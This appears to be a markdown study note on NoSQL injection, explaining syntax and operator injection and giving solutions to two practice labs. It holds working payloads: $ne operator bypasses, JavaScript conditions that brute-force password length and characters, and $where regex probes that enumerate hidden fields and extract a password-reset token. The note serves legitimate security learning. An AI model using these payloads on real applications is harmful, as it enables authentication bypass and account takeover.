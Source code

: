 # NoSQL Injection

NoSQL injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database.
There are two different types of NoSQL injection:
- **Syntax injection** - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. Use null operator (`%00`) to ignore upcoming conditions.
- **Operator injection** - This occurs when you can use NoSQL query operators to manipulate queries.
  
  
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following:
    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.

### LAB: Exploiting NoSQL injection to extract data
Take advantage of the response for request `GET /user/lookup?user=`

    && this.password.length==8 && '1'=='1 -> Return user's info -> password's length = 8
    && this.password.match(/\d/) && '1'=='1 -> Could not find user -> no digit in password
    && this.password[0]=='$a$ -> Brute force to find the password 


### LAB: Exploiting NoSQL operator injection to extract unknown fields
Add this to the JSON in the POST request to `/login`:

    "$where":"Object.keys(this)[4].match('^.{$0$}.*')"    -> look for the biggest number with a valid response -> that's the length of the key

    "$where":"Object.keys(this)[4].match('^.{0}$a$.*')"   -> this means the first character is 'a'. After finding a valid character, add that to the match (e.g. 'b' is a match -> "$where":"Object.keys(this)[4].match('^.{0}ab.*')") and find the next character

    {"username":"carlos","password":{
    "$ne":""},"changePwd":{ "$regex": "^{$a$}" }}    -> changePwd = af03484db14c7c66 

    go to /forgot-password?changePwd=af03484db14c7c66